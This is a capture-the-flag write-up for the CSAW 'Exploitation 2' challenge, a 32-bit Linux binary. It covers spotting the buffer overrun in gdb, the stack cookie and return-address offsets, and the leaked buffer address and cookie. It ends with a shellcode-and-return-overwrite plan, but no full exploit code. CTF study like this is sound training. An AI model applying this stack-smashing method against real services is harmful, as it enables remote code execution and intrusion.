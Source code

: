 # Exploitation - Exploitation 2 - 200 Points  

## Challenge site  

nc 128.238.66.212 31338  
exploit2  

## Server output  

Welcome to CSAW CTF.  Exploitation 2 will be a little harder this year.  Insert your exploit here:  

## Notes  

	$ file exploit2  
	exploit2: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=94f196c7d8ce45ecf9943690ed4e193c9d13b906, not stripped  

	gdb example to spot buffer overrun:
	------------------------------------
	$ gdb exploit2
	(gdb) set follow-fork-mode child
	(gdb) break *0x80488f5
	(gdb) run
	$ python -c "print('A'*3000)" | nc localhost 31338
	hit at breakpoint 0x80488f5
	(gdb) next
	frame 1 # <- if you overran you should see your pattern (example: 0x41414141)
	
	
	Things i have learned.
	The stack frame pattern is at offset 2064
	but there is a stack cookie at offset 2048
	The garbage at the begining of the message (ie; ',uyye!w-Welcome to CSAW CTF. ') is not just crap. 
	    at offset 4 is the stack cookie (4 byte integer big endian).
	That stack cookie can also be read out of memory in GDB at memory offset 0x804a074
	
	All the data you need to beat this is sent to you:
	00000000  1c d3 ff ff f7 cd c1 6a  57 65 6c 63 6f 6d 65 20  |.......jWelcome |
	00000010  74 6f 20 43 53 41 57 20  43 54 46 2e 20 20 45 78  |to CSAW CTF.  Ex|
	00000020  70 6c 6f 69 74 61 74 69  6f 6e 20 32 20 77 69 6c  |ploitation 2 wil|
	00000030  6c 20 62 65 20 61 20 6c  69 74 74 6c 65 20 68 61  |l be a little ha|
	00000040  72 64 65 72 20 74 68 69  73 20 79 65 61 72 2e 20  |rder this year. |
	00000050  20 49 6e 73 65 72 74 20  79 6f 75 72 20 65 78 70  | Insert your exp|
	00000060  6c 6f 69 74 20 68 65 72  65 3a 00                 |loit here:.|
	0000006b

	The first 4 bytes of data is the location of the buffer. 
	The next 4 bytes of data is the stack cookie.

	The solution is to put your shell code at the beging of the buffer and seed the stack cookie and the RET address in the return.

